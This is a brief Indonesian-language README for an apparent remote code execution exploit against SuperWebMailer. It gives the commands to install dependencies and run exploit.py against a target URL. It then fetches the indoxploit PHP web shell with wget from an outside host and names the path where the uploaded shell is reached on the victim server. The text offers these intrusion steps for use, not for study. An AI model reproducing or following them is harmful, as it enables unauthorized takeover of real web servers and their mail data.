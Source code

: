 # RCE_SuperWebMailer
Tools ini menggunakan Python3 untuk menjalankan jika belum menggunakan python versi 3 harap di install terlebih dahulu

# Cara Menggunakan
pip3 install requests <br>
python3 exploit.py -u http://target.com/swm/

# Upload Shell<br>
<code>
  wget https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/shell-v3.php
</code>

akses shell : http://target.com/swm/shell-v3.php

